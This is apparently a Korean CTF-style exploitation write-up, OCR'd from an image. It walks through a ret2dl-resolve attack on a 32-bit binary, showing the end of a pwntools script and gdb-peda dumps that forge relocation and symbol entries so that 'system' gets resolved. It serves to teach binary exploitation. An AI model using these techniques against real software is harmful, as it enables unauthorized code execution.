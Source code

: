 ```python

p = process(elf.path)
#gdb.attach(p)
print(p.recvline())

#raw_input('1')
p.send(buf1)
p.send(buf2)
p.interactive()
```

.bss 영역 base_stage에 저장된 값.

```
db-peda$ x/24wx 0x804a020 + 0x300
0x804a320:	0x0000003b	0xf7f5b918	0x00002084 <- fake_reloc_offset  0x42424242
0x804a330:	0x0804a353	0x0804a00c	0x00021707	0x00002120
0x804a340:	0x00000000	0x00000000	0x00000012	0x74737973
```

fake Elf32_Rel을 가리키도록 fake_reloc_offset을 맞춰준다.

```
gdb-peda$ elfheader .rel.plt
.rel.plt: 0x80482b0 - 0x80482c8 (rodata)
gdb-peda$ x/24wx 0x80482b0 + 0x00002084
0x804a334:	0x0804a00c	0x00021707 <- fake Elf32_Rel  0x00002120	0x00000000
0x804a344:	0x00000000	0x00000012	0x74737973	0x2f006d65
```

fake_r_info의 r_offset을 더해주면 Elf32_Sym을 가리키도록 해준다.

```
gdb-peda$ elfheader .dynsym
.dynsym: 0x80481cc - 0x804822c (rodata)
gdb-peda$ x/24wx 0x80481cc + 0x2170
0x804a33c:	0x00002120	0x00000000	0x00000000	0x00000012
0x804a34c:	0x74737973	0x2f006d65	0x2f6e6962	0x00006873
```

fake_st_name을 가리키도록 .dynstr에서의 offset을 맞춰준다.

```
gdb-peda$ elfheader .dynstr
.dynstr: 0x804822c - 0x804827c (rodata)
gdb-peda$ x/s 0x804822c + 0x00002120
0x804a34c:	"system"
```

```
[----------------------------------registers-----------------------------------]
EAX: 0x3b (';')
EBX: 0x0 
ECX: 0x804a320 --> 0x3b (';')
EDX: 0x64 ('d')
ESI: 0x0 
EDI: 0x804a320 --> 0x3b (';')
EBP: 0x41414141 ('AAAA')
ESP: 0x804a31c --> 0xf7e1b940 (<system>:	sub    esp,0xc)
EIP: 0xf7fc7ffb (ret    0xc)
EFLAGS: 0x212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7fc7ff1:	mov    ecx,DWORD PTR [esp]
   0xf7fc7ff4:	mov    DWORD PTR [esp],eax
   0xf7fc7ff7:	mov    eax,DWORD PTR [esp+0x4]
=> 0xf7fc7ffb:	ret    0xc   <--- 0xc 만큼 인자를 정리해준다.
   0xf7fc7ffe:	xchg   ax,ax 
   0xf7fc8000:	push   esp
   0xf7fc8001:	add    DWORD PTR [esp],0x8
```
